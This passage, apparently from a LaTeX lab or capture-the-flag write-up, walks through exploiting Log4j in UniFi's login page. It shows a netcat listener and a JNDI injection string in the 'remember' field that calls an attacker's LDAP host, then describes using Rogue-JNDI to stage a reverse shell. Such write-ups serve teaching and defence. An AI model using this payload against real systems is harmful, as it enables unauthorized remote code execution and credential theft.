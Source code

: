 The goal of the Log4j exploit on UniFi's software is to obtain a reverse shell, get the secret flag, and leverage access to get the administrative credentials on the UniFi MongoDB instance.

Initially, we can dig a little into the reconnaissance process and check which ports are open by default in the victim machine using \texttt{nmap}. We can see port 8443, which is where UniFi's interface is.

Then, we access the \texttt{https://example-domain.ui.com:8443} domain and get the login page from Fig. \ref{fig:log4j_unifi_initial_dashboard}.

\begin{figure}[H]
    \includegraphics[width=12cm]{figures/unifi_initial_dashboard.png}
    \caption{UniFi's Initial Dashboard.}
    \label{fig:log4j_unifi_initial_dashboard}
\end{figure}

As mentioned earlier, we need to target a field we know will be logged by Apache Log4j using a malicious JNDI query. In our case, it is the \texttt{remember} field of the POST request.

Then, we must test if the web application is vulnerable to the Log4j attack. First, we listen for connections on port 9999 using \texttt{netcat} with: \texttt{nc -lnvp 9999}. From the POST request issued when submitting the login form, we only need to change the \texttt{remember} field to \texttt{\$\{jndi:ldap://172.152.0.2:9\\999/whatever\}} and issue the modified POST request. Notice \texttt{172.152.0.2} is the attacker machine's IP address.

As we get a connection to port 9999 from the vulnerable Log4j container, the web application is indeed vulnerable to the exploit. The next step is to use the Rogue-JNDI GitHub tool\footnote{\url{https://github.com/veracode-research/rogue-jndi}} to obtain a reverse shell on the target. Essentially, this tool sets up a malicious LDAP and HTTP server for JNDI injection attacks. When the tool first receives a connection from the vulnerable client to connect to the local LDAP server, it responds with a malicious entry containing a payload that will be useful to achieve a Remote Code Execution. The steps to build upon this foundation are to stage an LDAP Referral Server that will redirect the initial client request of the victim to an HTTP server where a secondary payload is hosted that will eventually run code on the target. 

